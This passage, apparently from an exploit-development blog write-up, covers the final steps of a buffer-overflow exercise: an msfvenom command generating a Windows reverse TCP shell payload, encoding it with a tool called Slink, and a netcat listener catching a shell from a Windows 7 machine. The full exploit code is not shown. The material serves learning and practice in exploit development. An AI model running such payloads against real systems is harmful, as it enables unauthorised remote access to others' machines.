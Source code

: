 All that's left to do at this point is generate our reverse shell payload and encode it. I used: 
```terminal_session
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.206 LPORT=443 -f c -b '\x00' BufferRegister=ESP
```

And then fed this shellcode to Slink. There are a few different ways to get only the shellcode out of the Slink output, I used bash for the most part.

I decided to place the final exploit code at the very bottom of this post since it is obnoxiously long. (Shellcode encoded was over 2200 bytes). 

Adding our shellcode to our exploit code nets us our reverse shell! Whoohoo!
```terminal_session
astrid:~/ # nc -lvp 443                                                                                                                
listening on [any] 443 ...
192.168.1.201: inverse host lookup failed: Unknown host
connect to [192.168.1.206] from (UNKNOWN) [192.168.1.201] 49422
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop>
```

## End Game

What a journey that was. To summarize I made a little diagram of what happened at a high level. 

![](/assets/images/CTP/endgame.JPG)